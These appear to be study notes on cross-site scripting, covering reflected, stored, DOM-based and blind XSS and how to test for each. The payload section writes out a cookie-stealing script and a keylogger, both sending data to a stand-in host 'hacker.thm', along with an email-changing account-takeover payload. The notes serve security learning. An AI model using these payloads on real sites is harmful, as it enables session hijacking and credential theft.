

# Payloads
## What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

<details>
  <summary>Intentions</summary>
  
## Intentions
Here are some examples of XSS intentions.

### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


```javascript
<script>alert('XSS');</script>
```

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

</details>

# Types of XSS Attacks



## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

## Stored XSS
As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

### How to test for Stored XSS

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

- Comments on a blog
- User profile information
- Website Listings

## DOM Based XSS
### What is the DOM?
DOM stands for _Document Object Model_ and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content.


### Example Scenario

The website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

### How to test for Dom Based XSS:

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.

## Blind XSS
Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

### Example Scenario:

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

### Potential Impact:

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

### How to test for Blind XSS:

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

### Tool for Blind XSS
[XSSHunter-Express](https://github.com/PranjalBasak/xsshunter-express)
